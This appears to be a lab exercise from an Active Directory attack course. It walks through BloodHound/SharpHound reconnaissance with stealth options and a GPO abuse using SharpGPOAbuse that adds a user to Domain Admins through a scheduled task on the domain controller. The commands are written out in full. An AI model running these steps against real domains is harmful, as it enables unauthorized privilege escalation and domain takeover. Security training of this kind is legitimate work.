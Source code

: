 # Exercise 5 - ACL-based attacks

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Bloodhound: [https://github.com/BloodHoundAD](https://github.com/BloodHoundAD)

## Exercise

This exercise is split in two parts. Part one covers the use of Bloodhound to collect and analyze data from Active Directory. Part two demonstrates an ACL-based attack on Group Policies.

### Part 1 - Bloodhound Exercise

First load "Sharphound", which is the data collection tool for Bloodhoud.

```
cd C:\attacker-tools
cat -raw .\SharpHound.ps1 | iex
```

Run sharphound to gather data on the domain.

```
Invoke-Bloodhound -CollectionMethod DcOnly -Stealth -PrettyJson -NoSaveCache
```

 - **-CollectionMethod DcOnly** means only collect data from the domain controller. This is preferable from an opsec-perspective since we blend in with existing traffic.
 - **-Stealth** means run single-threaded. Slower but also less noisy.
 - **-PrettyJson** means format the .json-files in a way that you can read them.
 - **-NoSaveCache** means do not save a cache file. Therefore everytime you run Sharphound it will start fresh from the beginning. Useful for demo purposes.

You shoud now see a ZIP file in your working directory called "TIMESTAMP_Bloodhound.zip". This ZIP contains the information gathered by Sharphound and can be ingested into Bloodhound. To get Bloodhound started we have to

1. Unzip "attacker-tools\BloodHound-win32-x64.zip".
2. After that, run "attacker-tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe". Log in with the user "neo4j" and the password you choose during Lab setup.
3. Ingest the ZIP file into bloodhound by just drag-and-drop it into the empty space in the center of the UI.

Thats it. Now you can start your analysis by experimenting with the "Pre-Built Analytics Queries" in the "Analysis" tab.

#### Questions

- Mark the user "taskservice" as owned. Find an attack path that will allows us to take control of the domain controller using the user taskservice.
- We got control over taskservice through kerberoasting but Bloodhound also shows you a different attack path. Which other user can manipulate the user taskservice? `Hint:` we got control over that user in the NTLM exercise
- **Bonus Question:** find a way to exploit the attack path you just found and try to execute it in the lab environment.

### Part 2 - GPO Exercise

The previous exercise revealed that the user "taskservice" has write permissions on "Default Domain Controllers" group policy. We'll use this to get us domain admin rights.

First, start powershell as user "taskservice". Since we know the password by now, we can just use run-as. Then go on with the steps below in this new powershell window.

```
cd C:\attacker-tools
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author contoso\adminuser --Command "cmd.exe" --Arguments '/c net group \"Domain Admins\" john /ADD' --GPOName "Default Domain Controllers Policy" --force
```

In a real environment, we would have to wait until the gpo is reprocessed by the DC. To speed this up, run gpupdate on the DC.

```
gpupdate /force
```

Verify that it worked by checking johns group memberships (using powerview again).

```
Get-DomainUser john | select memberof
```

**Woohoo - you finally made it to Domain Admin. Now grab yourself a beverage of your choice :-)**
